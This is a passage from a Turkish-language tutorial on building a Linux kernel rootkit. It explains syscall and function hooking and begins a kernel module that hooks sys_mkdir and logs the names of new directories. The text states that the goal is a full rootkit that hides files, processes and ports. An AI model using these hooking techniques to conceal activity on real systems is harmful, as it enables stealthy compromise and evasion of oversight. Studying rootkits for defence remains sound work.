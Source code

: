 ```

Tabii ki, kernel bizim için işi yaptığından, gerçek `sys_read`'in bunu yapmasına gerek yoktur. Ancak bir hook fonksiyonu yazarken argümanları bu şekilde ele almamız gerekecek.

Bu kadar temel bilgiden sorna, artık rootkitimizin yapacağı temel işlevleri olulşturmaya başlıyabiliriz. Bu makalenin sonunda tam işlevli bir rootkit yazmış olacağız.


# II.Rootkit İşlevleri

Standart Bir Rootkit 'in yerie getirebilmesi gereken bazı işlevler vardır bunlardan birkaçı ; Dosyaları gizlemek , Processleri gizlemek , Bağlantı Noktaları ve Portları gizlemektir. Bir Rootkit'in bunları yapabilmesinin temel birkaç yolu var. Bunlardan 2 tanesi **Syscall Hooking** ve **Function Hooking** dir. Syscaller aynı zamanda Kernel modda çalışan bir ***Fonksiyon*** olduğu için teknik olarak **Function Hooking** ve **Syscall Hooking** aynı anlama gelmektedir. Bir Rootkitte işlevleri yertine getirmenin en sık tercih edilen yolu **Function Hookingdir**.

### 1. Syscallhooking

Tüm bunların dışında, bir hadi bir `function hook` yazmaya başlayalım! `Sys_mkdir` için, oluşturulmakta olan dizinin adını kernel buffer ına yazdıran çok basit bir hook oluşturmak için yukarıdaki iki yöntemi dikkate alacağız. Daha sonra gerçek `sys_mkdir` yerine bu hook fonksiyonu geçireceğiz.

Öncelikle, hangi kernel sürümünü derlediğimizi kontrol etmemiz gerekecek - `linux/version.h` bu konuda bize yardımcı olacaktır. Ardından işleri bizim için basitleştirmek için bir dizi `önişlemci makrosu` kullanacağız.

```
#include <linux/init.h>
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/syscalls.h>
#include <linux/version.h>
#include <linux/namei.h>

MODULE_LICENSE("GPL");
MODULE_VERSION("0.01");

#if defined(CONFIG_X86_64) && (LINUX_VERSION_CODE >= KERNEL_VERSION(4,17,0))
#define PTREGS_SYSCALL_STUBS 1
#endif

#ifdef PTREGS_SYSCALL_STUBS
static asmlinkage long (*orig_mkdir)(const struct pt_regs *);

asmlinkage int hook_mkdir(const struct pt_regs *regs)
{
    char __user *pathname = (char *)regs->di;
    char dir_name[NAME_MAX] = {0};

    long error = strncpy_from_user(dir_name, pathname, NAME_MAX);

    if (error > 0)
        printk(KERN_INFO "rootkit: trying to create directory with name: %s\n", dir_name);
